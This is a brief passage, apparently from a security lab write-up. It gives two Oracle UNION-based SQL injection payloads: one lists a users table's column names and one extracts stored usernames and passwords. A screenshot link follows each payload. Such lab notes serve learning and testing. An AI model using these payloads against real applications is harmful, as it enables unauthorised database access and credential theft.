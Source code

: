 


- get column name:

`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_XRVGVT'--`

![image-20250525162623470](./image/image-20250525162623470.png)

- get creds:

`'+UNION+SELECT+USERNAME_IYJADB,+PASSWORD_PFYFJL+FROM+USERS_XRVGVT--`

![image-20250525162721831](./image/image-20250525162721831.png)
